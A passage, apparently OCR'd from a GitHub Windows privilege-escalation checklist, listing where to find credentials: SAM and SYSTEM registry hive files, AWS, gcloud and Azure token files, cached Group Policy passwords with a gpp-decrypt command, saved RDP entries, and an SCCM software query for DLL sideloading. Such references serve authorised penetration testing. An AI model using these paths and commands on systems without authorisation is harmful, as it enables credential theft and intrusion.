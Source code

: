 	%SYSTEMROOT%\System32\config\SAM
	%SYSTEMROOT%\repair\system
	%SYSTEMROOT%\System32\config\SYSTEM
	%SYSTEMROOT%\System32\config\RegBack\system
	```
- [ ] Cloud credentials
	```powershell
	# From user home
	.aws\credentials
	AppData\Roaming\gcloud\credentials.db
	AppData\Roaming\gcloud\legacy_credentials
	AppData\Roaming\gcloud\access_tokens.db
	.azure\accessTokens.json
	.azure\azureProfile.json
	```
- [ ] Cached [GPP password](https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/)
	```powershell
	# Before Vista look inside
	C:\Documents and Settings\All Users\Application Data\Microsoft\Group Policy\history
	# After Vista look inside
	C:\ProgramData\Microsoft\Group Policy\history
	# Look for
	Groups.xml
	Services.xml
	Scheduledtasks.xml
	DataSources.xml
	Printers.xml
	Drives.xml
	
	# Decrypt the passwords with
	gpp-decrypt j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
	```
- [ ] Saved RDP connections
	```powershell
	HKEY_USERS\<SID>\Software\Microsoft\Terminal Server Client\Servers\
	HKCU\Software\Microsoft\Terminal Server Client\Servers\
	```
- [ ] Remote desktop credential manager
	```powershell
	%localappdata%\Microsoft\Remote Desktop Connection Manager\RDCMan.settings
	```
- [ ] SCClient \ SCCM
	```powershell
	# Check if the retrieved sotfwares are vulnerable to DLL Sideloading
	# https://github.com/enjoiz/Privesc
	$result = Get-WmiObject -Namespace "root\\ccm\\clientSDK" -Class CCM\_Application -Property * | select Name,SoftwareVersion
	if ($result) { $result }
	else { Write "Not Installed." }
	```
- [ ] Check recycle bin